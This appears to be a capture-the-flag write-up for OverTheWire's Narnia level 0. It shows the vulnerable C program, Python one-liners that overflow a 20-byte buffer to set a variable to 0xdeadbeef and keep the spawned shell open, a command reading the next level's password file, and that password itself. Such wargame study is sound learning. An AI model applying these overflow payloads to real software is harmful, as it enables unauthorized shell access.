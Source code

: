 **>> Details: [https://overthewire.org/wargames/narnia/](https://overthewire.org/wargames/narnia/)**

> This wargame is for the ones that want to learn basic exploitation. You can see the most
common bugs in this game and we've tried to make them easy to exploit. You'll get the
source code of each level to make it easier for you to spot the vuln and abuse it. The
difficulty of the game is somewhere between Leviathan and Behemoth, but some of the
levels could be quite tricky.

![grafik](https://user-images.githubusercontent.com/84674087/142839640-d5296859-5d88-4d7e-8d83-a703d855b394.png)

<br />
<br />

## Narnia 0

![grafik](https://user-images.githubusercontent.com/84674087/142839936-9a2f374f-9862-45a3-831b-77ca618ca65a.png)

#### Solution
- We check the **sourcecode of narnia0.c**
```
#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}
```
- One can immediately spot the limited char buffer, which is assigned to 20 chars
- Moreover, the user input can account for up to 24 chars and is handed over to char buffer
- Let us provide user input with 24 chars to check what's happening
- To do so, we run a one-liner in the terminal with the help of simple python code
   - Option 1): ``` ./script `python -c "print('hello')"` ```
   - Option 2): `python -c "print('hello')" | ./script`
   - Option 3): `(python -c command1 ; command2 ; cat) | ./script`  --> "cat" keeps shell open (!)
- We proceed with Option 2) and adjust the command to our needs
- `python -c "print('C'*24)" | ./narnia0`
- Output:

![grafik](https://user-images.githubusercontent.com/84674087/142843934-579dcfca-d8dc-4fc9-8213-d7673334469e.png)

- We can change val from 0x41414141 (AAAA) to 0x43434343 (CCCC)
- Now we want to write "0xdeadbeef" instead of 0x43434343
- `python -c "print('C'*20 + '\xef\xbe\xad\xde')" | ./narnia0`
- It works ! But we don't see the shell ?!
- Here comes above mentioned Option 3) into the game: We have to keep the shell open with another command like "cat"
- `(python -c "print('C'*20 + '\xef\xbe\xad\xde')"; cat) | ./narnia0`
- We become user narnia1 and do `cat /etc/narnia_pass/narnia1`
- **PASSWORD:** efeidiedae

<br />

## Narnia 1

#### Solution 

<br />


